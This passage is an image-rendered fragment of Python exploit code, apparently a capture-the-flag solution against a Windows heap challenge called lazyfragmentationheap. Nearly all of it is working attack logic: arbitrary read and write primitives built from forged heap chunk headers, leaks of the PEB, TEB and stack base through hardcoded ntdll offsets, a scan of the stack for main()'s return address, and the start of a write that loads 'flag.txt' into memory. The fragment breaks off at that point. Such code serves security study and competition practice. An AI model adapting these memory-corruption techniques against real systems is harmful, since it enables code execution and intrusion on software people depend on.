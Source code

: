 ```python
            edit(lazy_id2, lazy_header1 + 
                           p64(0xbeefdad0000) +
                           lazy_header2 +
                           p64(addr)
            )
            result = show(lazy_id2)

        magic_switch = not magic_switch
        return result

    def lazy_write(addr, value):
        global magic_switch

        if magic_switch:
            edit(lazy_id1, lazy_header1 + 
                           p64(addr) +
                           lazy_header2 +
                           p64(0xbeefdad0000) +
                           lazy_header3 +
                           p64(addr)
            )
        else:
            edit(lazy_id2, lazy_header1 + 
                           p64(0xbeefdad0000) +
                           lazy_header2 +
                           p64(addr) +
                           lazy_header3 +
                           p64(addr)
            )

        edit(lazy_id3, value, False)
        magic_switch = not magic_switch

    # ntdll!TlsBitMap+0x8 == _PEB->TlsBitmap
    _PEB = u64(lazy_read(ntdll+0x165348).ljust(8, p8(0))) - 0x80 
    _TEB = _PEB + 0x1000 

    log.info("&_PEB = 0x%016x" % _PEB)
    log.info("&_TEB = 0x%016x" % _TEB)

    # leak _TEB->NtTib->StackBase
    stack_base = u64(lazy_read(_TEB + 8 + 2).ljust(8, p8(0))) << 16
    log.info("_TEB->NtTib->StackBase = 0x%016x" % stack_base)
   
    # find return address of main() at beginning
    main_ret = lazy_base + 0x1b78

    find_ret_addr = hi.progress("finding return address on stack")
    for offset in range(8, 0x1000, 8):
        stack_addr = stack_base - offset
        stack_leak = u64(lazy_read(stack_addr).ljust(8, p8(0)))

        if stack_leak == main_ret:
            find_ret_addr.success("gotcha!")
            break

    # return addres of read() at lazyfragmentationheap+0x14bb
    stack_addr = stack_addr - 0x80
    log.info("stack addr = 0x%016x" % stack_addr)

    flag_addr = lazy_base + 0x50c0
    flag_buf = lazy_base + 0x50d0
    lazy_write(flag_addr, "flag.txt\x00")
```